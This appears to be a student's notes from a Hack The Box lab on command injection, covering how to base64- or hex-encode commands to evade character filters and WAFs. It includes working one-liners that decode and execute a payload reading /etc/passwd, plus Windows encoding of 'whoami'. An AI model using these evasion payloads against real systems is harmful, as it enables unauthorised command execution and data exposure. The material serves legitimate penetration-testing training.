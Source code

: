 ## Encoded Commands

The final technique we will discuss is helpful for commands containing filtered characters or characters that may be URL-decoded by the server. This may allow for the command to get messed up by the time it reaches the shell and eventually fails to execute. Instead of copying an existing command online, we will try to create our own unique obfuscation command this time. This way, it is much less likely to be denied by a filter or a WAF. The command we create will be unique to each case, depending on what characters are allowed and the level of security on the server.

We can utilize various encoding tools, like `base64` (for b64 encoding) or `xxd` (for hex encoding). Let's take `base64` as an example. First, we'll encode the payload we want to execute (which includes filtered characters):

```shell
gitblanc@htb[/htb]$ echo -n 'cat /etc/passwd | grep 33' | base64

Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
```

Now we can create a command that will decode the encoded string in a sub-shell (`$()`), and then pass it to `bash` to be executed (i.e. `bash<<<`), as follows:

```shell
gitblanc@htb[/htb]$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

As we can see, the above command executes the command perfectly. We did not include any filtered characters and avoided encoded characters that may lead the command to fail to execute.

>[!Tip]
>Note that we are using `<<<` to avoid using a pipe `|`, which is a filtered character.

Now we can use this command (once we replace the spaces) to execute the same command through command injection:

![](Pasted%20image%2020250218190250.png)

Even if some commands were filtered, like `bash` or `base64`, we could bypass that filter with the techniques we discussed in the previous section (e.g., character insertion), or use other alternatives like `sh` for command execution and `openssl` for b64 decoding, or `xxd` for hex decoding.

We use the same technique with Windows as well. First, we need to base64 encode our string, as follows:

```powershell
PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))

dwBoAG8AYQBtAGkA
```

We may also achieve the same thing on Linux, but we would have to convert the string from `utf-8` to `utf-16` before we `base64` it, as follows:

```shell
gitblanc@htb[/htb]$ echo -n whoami | iconv -f utf-8 -t utf-16le | base64

dwBoAG8AYQBtAGkA
```
